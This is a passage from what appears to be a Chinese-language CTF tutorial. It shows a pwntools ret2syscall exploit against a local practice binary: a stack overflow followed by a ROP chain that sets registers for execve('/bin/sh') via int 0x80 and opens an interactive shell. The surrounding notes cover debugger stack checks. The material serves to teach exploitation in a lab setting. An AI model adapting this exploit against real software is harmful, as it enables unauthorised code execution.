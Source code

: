 执行完pop指令就会ret去执行int 0x80指令

#### Exploit

```python
from pwn import*


o = process('./ret2syscall')
bin_sh = 0x0804a020
pop_ebx_eax_ret = 0x0804843e
int_80 = 0x08048441
payload = 'a'*18 + 'a'*4    # 覆盖变量和ebp
payload += p32(pop_ebx_eax_ret) + p32(bin_sh) + p32(11)
payload += p32(int_80)
o.sendline(payload)
o.interactive()
```

直接在run函数的ret指令处下断点, 看栈是否和预期结果一样

![image-20220316183701353](自救指南.assets/image-20220316183701353.png)

一样的, 最后执行完即可拿到shell

![image-20220316183714958](自救指南.assets/image-20220316183714958.png)
